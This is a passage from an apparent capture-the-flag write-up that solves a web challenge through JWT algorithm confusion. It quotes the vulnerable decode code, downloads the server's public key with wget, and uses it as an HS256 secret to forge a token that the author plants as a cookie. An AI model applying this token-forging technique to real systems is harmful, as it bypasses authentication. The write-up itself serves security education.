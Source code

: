 It is totally possible to securely incorporate multiple algorithms into an application. However, improper implementation or usage of JWT libraries can lead to [Algorithm Confusion](https://portswigger.net/web-security/jwt/algorithm-confusion){:target="_blank"} vulnerabilities.

Without diving too deep into the code, in this implementation (`jwt.py`) there is this this check in the `decode` function:

```py
# ...
alg_to_use = json_header["alg"]
if alg_to_use == "HS256":
    h = hmac.HMAC(secret, hashes.SHA256())
    h.update(b".".join([header, payload]))
    h.verify(decoded_signature)
elif alg_to_use == "RS256":
    pub = serialization.load_pem_public_key(secret)
    pub.verify(
# ...
```

For both algorithms, the private/public key is being read from the same varaible `secret`, which is actually `public_key.pem` file that we can download.

That means, if we changed the `alg` to `HS256`, the token's secret key would be that public key.

First I downloaded the public key into the server folder:
```sh
cd server
wget https://back-to-the-future.tjc.tf/static/public_key.pem
```

Then I ran Python REPL, imported everything from `jwt.py` and loaded the public key.
```python
>>> from jwt import *
>>> public_key = open("public_key.pem", "rb").read()
```

After that, I called `encode` to generate myself a custom token with the year set to <1970.

```python
>>> encode({
...     "id": "51027d09-96bc-466a-be78-e5d7e937562d",
...     "username": "s4ndu",
...     "year": "1969"
... }, public_key, algorithm="HS256")
b'eyJ0eXAiOiAiSldUIiwgImFsZyI6ICJIUzI1NiJ9.eyJpZCI6ICI1MTAyN2QwOS05NmJjLTQ2NmEtYmU3OC1lNWQ3ZTkzNzU2MmQiLCAidXNlcm5hbWUiOiAiczRuZHUiLCAieWVhciI6ICIxOTY5In0.bxPM6DMT1oytXL06w02P_Hxb-cTmVcwtSpnofmSm6Uk'
```

I swapped the old cookie for the new one in my browser, refreshed the page and the message had changed (not for the better).

![](/uploads/{{ page.permalink }}/ss18.png)

Anyway, our flag should be at `/retro`.

![](/uploads/{{ page.permalink }}/ss19.png)
